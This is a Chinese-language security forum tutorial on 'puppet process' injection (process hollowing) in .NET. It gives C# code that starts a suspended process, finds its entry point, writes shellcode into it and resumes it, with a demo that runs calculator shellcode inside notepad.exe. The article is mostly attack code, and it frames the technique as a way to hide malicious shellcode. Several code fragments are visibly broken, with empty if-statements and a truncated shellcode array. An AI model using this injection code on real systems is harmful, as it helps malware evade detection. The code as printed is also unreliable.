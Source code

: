 

# .NET 隐藏技术之傀儡进程 - 先知社区

.NET 隐藏技术之傀儡进程

- - -

傀儡进程就是修改某进程的内存数据，向内存中写入 Shellcode，并修改进程的执行流程，使其转向执行恶意的 Shellcode。

# 1 相关函数

## ZwQueryInformationProcess

可以获取指定进程的信息等。

```bash
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);
```

## ReadProcessMemory

从指定进程的内存中读取数据。

```bash
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

## ResumeThread

恢复线程的执行。

```bash
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```

# 2 实现隐藏

要想成功创建傀儡进程，有两个技术要点，首先调用 CreateProcess 函数创建进程，并且设置该进程的标志为 CreateSuspended，表示挂起等待进程，这时主线程处于挂起状态，不会线下执行代码。

```bash
public PROCESS_INFORMATION StartProcess(string path)
{
STARTUPINFO startInfo = new STARTUPINFO();
PROCESS_INFORMATION procInfo = new PROCESS_INFORMATION();
uint flags = CreateSuspended | DetachedProcess ;
if (!CreateProcess((IntPtr)0, path, 0, (IntPtr)0, true, flags, (IntPtr)0, (IntPtr)0,    ref     startInfo, out procInfo))
return procInfo;
}
```

接着调用 ZwQueryInformationProcess 和 ReadProcessMemory 函数定位进程中的模块地址。

```bash
public IntPtr FindEntry(IntPtr hProc)
{
    var basicInfo = new PROCESS_BASIC_INFORMATION();
    uint tmp = 0;
    var success = ZwQueryInformationProcess(hProc, 0, ref basicInfo, (uint)(IntPtr.Size * 6), ref tmp);
    IntPtr readLoc = IntPtr.Zero;
    var addrBuf = new byte[IntPtr.Size];
    if (IntPtr.Size == 4)
    {
        readLoc = (IntPtr)((Int32)basicInfo.PebAddress + 8);
    }
    else
    {
        readLoc = (IntPtr)((Int64)basicInfo.PebAddress + 16);
    }
    IntPtr nRead = IntPtr.Zero;
    if (!ReadProcessMemory(hProc, readLoc, addrBuf, addrBuf.Length, out nRead) || nRead == IntPtr.Zero)
    if (IntPtr.Size == 4)
        readLoc = (IntPtr)(BitConverter.ToInt32(addrBuf, 0));
    else
        readLoc = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
    pModBase_ = readLoc;
    if (!ReadProcessMemory(hProc, readLoc, inner_, inner_.Length, out nRead) || nRead == IntPtr.Zero)
    return GetEntryFromBuffer(inner_);
}
```

最后调用 WriteProcessMemory 函数将我们的 Shellcode 写入到远程挂起的进程中，再使用 ResumeThread 函数恢复主线程，让进程按照修改后的流程继续执行，这样系统就会执行注入的 Shellcode 代码。

```bash
public void MapAndStart(PROCESS_INFORMATION pInfo)
{
    var tmp = MapSection(pInfo.hProcess, PageReadWriteExecute, IntPtr.Zero);
    if (tmp.Key == (IntPtr)0 || tmp.Value == (IntPtr)0)
        throw new SystemException("向目标进程写入失败！");
    remotemap_ = tmp.Key;
    remotesize_ = tmp.Value;
    var patch = BuildEntryPatch(tmp.Key);
    try
    {
        var pSize = (IntPtr)patch.Key;
        IntPtr tPtr = new IntPtr();
        if (!WriteProcessMemory(pInfo.hProcess, pEntry_, patch.Value, pSize, out tPtr) || tPtr == IntPtr.Zero)
    }
    finally
    {
        if(patch.Value != IntPtr.Zero)
            Marshal.FreeHGlobal(patch.Value);
    }
    var tbuf = new byte[0x1000];
    var nRead = new IntPtr();
    if (!ReadProcessMemory(pInfo.hProcess, pEntry_, tbuf, 1024, out nRead))
        throw new SystemException("Failed!");
    var res = ResumeThread(pInfo.hThread);
    if (res == unchecked((uint)-1))
}
```

以运行本地计算器的 Shellcode 为例，在程序主入口创建傀儡进程"notepad.exe"，

```bash
static void Main(string[] args)
{
byte[] shellcode = new byte[193] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52
}
var ldr = new Loader();
ldr.Load("notepad.exe", shellcode);
```

启动测试后成功弹窗，说明 Shellcode 代码成功执行，启动 calc 进程。如图

[![](assets/1706146396-8ae60161abac848d4e658ba7efae278c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123154430-3e48f85e-b9c3-1.png)
